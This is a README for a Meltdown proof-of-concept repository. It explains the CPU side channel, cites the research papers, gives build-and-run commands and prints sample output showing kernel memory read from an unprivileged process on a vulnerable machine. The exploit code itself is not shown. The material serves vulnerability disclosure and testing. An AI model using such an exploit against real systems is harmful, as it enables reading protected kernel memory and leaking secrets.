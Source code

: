 # MELTDOWN EXPLOIT POC

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Lipp et. al 2018 published their code 2018-01-09 at
https://github.com/IAIK/meltdown. Look at their paper for details:
https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`. Works with `sched_yield`.

Build with `make`, run with `./run.sh`.

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
cached = 30, uncached = 349, threshold 102
read ffffffff8f800060 = 25 % (score=314/1000)
read ffffffff8f800061 = 73 s (score=301/1000)
read ffffffff8f800062 = 20   (score=242/1000)
read ffffffff8f800063 = 76 v (score=338/1000)
read ffffffff8f800064 = 65 e (score=280/1000)
read ffffffff8f800065 = 72 r (score=326/1000)
read ffffffff8f800066 = 73 s (score=388/1000)
read ffffffff8f800067 = 69 i (score=304/1000)
read ffffffff8f800068 = 6f o (score=240/1000)
read ffffffff8f800069 = 6e n (score=301/1000)
read ffffffff8f80006a = 20   (score=295/1000)
read ffffffff8f80006b = 25 % (score=329/1000)
read ffffffff8f80006c = 73 s (score=268/1000)
read ffffffff8f80006d = 20   (score=197/1000)
read ffffffff8f80006e = 28 ( (score=239/1000)
read ffffffff8f80006f = 64 d (score=154/1000)
VULNERABLE
PLEASE POST THIS TO https://github.com/paboldin/meltdown-exploit/issues/19
VULNERABLE ON
4.14.0-kali1-amd64 #1 SMP Debian 4.14.2-1kali1 (2017-12-04) unknown
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 78
model name	: Intel(R) Core(TM) i5-6300U CPU @ 2.40GHz
stepping	: 3
microcode	: 0xba
cpu MHz		: 2500.000
cache size	: 3072 KB
physical id	: 0

```

Post Vulnerable and Invulnerable Machines in Issues in the folloving links

Not vulnerable- https://github.com/EsenkayShady/meltdown-poc/issues/1
Vulnerable- https://github.com/EsenkayShady/meltdown-poc/issues/2
# meltdown-poc
